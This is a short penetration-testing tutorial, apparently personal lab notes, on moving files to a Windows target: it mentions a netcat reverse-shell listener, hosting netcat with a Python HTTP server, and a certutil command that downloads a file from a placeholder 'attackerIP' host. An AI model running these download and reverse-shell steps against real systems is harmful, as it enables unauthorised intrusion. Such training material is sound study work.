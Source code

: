 # Transferring Files To Windows Targets

## Practice Demo

Enumerate the target.

In this case we will an exploitdb script to exploit the target.

Set up the netcat listener to receive the reverse shell.

&#x20;For this exploit we need the netcat executable to be hosted.

* <mark style="color:yellow;">python3 -m http.server 80</mark>&#x20;

<mark style="color:red;">NOTE:</mark> Always transfer files to the C:\\\Temp directory, if it doesn't exist create it.

#### Download file from Server in Windows

* <mark style="color:yellow;">certutil -urlcache -f http://attackerIP/'nameoffile' 'nameoffilewhendownloaded'</mark>
